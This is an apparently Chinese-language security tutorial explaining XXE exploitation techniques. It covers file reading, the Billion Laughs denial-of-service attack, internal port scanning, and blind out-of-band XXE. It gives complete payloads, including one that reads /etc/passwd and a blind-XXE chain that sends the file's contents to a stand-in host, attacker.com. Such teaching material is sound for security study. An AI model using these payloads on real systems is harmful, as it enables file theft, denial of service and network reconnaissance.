 ### XXE 漏洞利用方式

**1. 文件读取（最常见）**

这是 XXE 漏洞最经典的利用方式，攻击者可以利用外部实体来读取服务器上的任意文件，例如`/etc/passwd`、Web 应用配置文件等

- **利用原理**：攻击者在 XML 文档中定义一个外部实体，实体的值为一个本地文件路径。当 XML 解析器解析该实体时，就会去读取并返回该文件的内容

- **利用步骤**：

  1. **构造恶意 DTD**：攻击者在 XML 文档的 DOCTYPE 声明中定义一个外部实体，通常使用 `SYSTEM` 关键字。
     - 例如：`<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`
  2. **引用实体**：在 XML 文档的主体中引用该实体。
     - 例如：`<data>&xxe;</data>`

- **完整示例**：

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>
      <data>&xxe;</data>
  </root>
  ```

  当服务器解析这个 XML 时，在 `<data>` 标签中就会回显 `/etc/passwd` 文件的内容

**2. 拒绝服务攻击（DoS）**

攻击者可以利用 XXE 漏洞，通过“递归引用”或“大量实体引用”的方式，使 XML 解析器进入死循环或消耗大量系统资源，从而导致服务崩溃

- **利用原理**：利用 XML 实体可以相互引用的特性，构造一个无限递归或指数级爆炸的实体

- **经典示例**：**十亿笑脸攻击（Billion Laughs Attack）**

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  ]>
  <lolz>&lol9;</lolz>
  ```

  这个 XML 文件虽然很小，但在解析时，`<lolz>` 实体会扩展为数十亿个“lol”，消耗巨大的内存和 CPU 资源，最终导致服务器崩溃

**3. 内网端口扫描**

攻击者可以利用 XXE 漏洞探测服务器所在内网中其他主机的开放端口

- **利用原理**：攻击者构造外部实体，让 XML 解析器去尝试连接内网 IP 和端口。如果端口开放，XML 解析会成功或返回特定的错误信息；如果端口关闭，则会返回连接超时等错误，通过错误信息来判断端口状态
- **利用方式**：
  1. **定义外部实体**：`<!ENTITY scan SYSTEM "http://192.168.1.1:80">`
  2. **发送请求**：让服务器去访问内网 IP 的端口
  3. **观察响应**：如果服务器返回了“连接被拒绝”等信息，说明端口是关闭的。如果返回了“连接超时”或成功连接，则说明端口可能是开放的

**4. 盲 XXE（Blind XXE）**

如果服务器没有将 XML 解析结果回显到前端，攻击者就无法直接看到文件内容，这时就需要利用**带外（Out-of-Band）通信**来获取信息

- **利用原理**：攻击者利用外部实体向自己的服务器发送请求，并在 URL 中携带需要读取的文件内容
- **利用步骤**：
  1. **构造外部实体**：攻击者在自己的服务器上搭建一个 HTTP 服务来监听请求
     - 例如：`<!ENTITY % file SYSTEM "file:///etc/passwd">`
     - `<!ENTITY % exfiltrate "<!ENTITY % send SYSTEM 'http://attacker.com/?data=%file;'>">`
  2. **远程引用**：在主 XML 中引用攻击者的 DTD 文件
     - `<!DOCTYPE foo SYSTEM "http://attacker.com/evil.dtd">`
     - 当服务器解析这个 DTD 时，就会将 `/etc/passwd` 文件的内容发送到攻击者的服务器上